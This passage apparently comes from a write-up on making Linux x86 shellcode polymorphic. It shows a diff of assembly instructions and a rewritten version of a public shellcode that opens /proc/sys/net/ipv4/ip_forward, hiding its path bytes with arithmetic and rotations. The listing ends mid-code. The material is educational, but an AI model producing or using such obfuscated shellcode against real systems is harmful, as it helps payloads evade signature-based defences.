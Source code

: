 	-	xor    ebx,ebx
	-	int    0x80
	-	call   0x8048062
	-	push   eax
	-	ja     0x80480c9
	-	gs
	-	inc    esp
	-	and    ecx,ah
	-	.byte 0x21
	+	mov al,0x15
	+	add al,0x35
	+	mov edx,0x454e2144
	+	rol edx,16
	+	push edx
	+	push WORD 0x5750
	+	mov ebx,esp
	+	mov cl,6
	+	int 0x80
	+	mov al,1
	+	int 0x80

* * *

The last shellcode which has been "polymorphized" is a "set /proc/sys/net/ipv4/ip_forward to 0 and exit()". The original code can be found [here](http://shell-storm.org/shellcode/files/shellcode-848.php).

This is the code of the polymorphic version:
    
	global _start
	section .text
	_start:
		xchg ebx,eax
		xor eax,ebx

		mov dword [esp-4], eax
		sub esp,4
		mov dword [esp-4],0x64726177
		mov dword [esp-8], 0x726f665f
		sub esp,8
		mov ebx,0x2f347069
		rol ebx,16
		push ebx
		mov ebx,0x6310101a
		add ebx,0x13605915
		push ebx
		push 0x74656e2f
		push 0x2f737973
		mov ebx,0x6f722f63
		rol ebx,16
		mov dword [esp-4],ebx
		sub esp,4
		push WORD 0x702f
		mov ebx,esp
		mov cl,0x1
		mov al,0x5
		int 0x80
		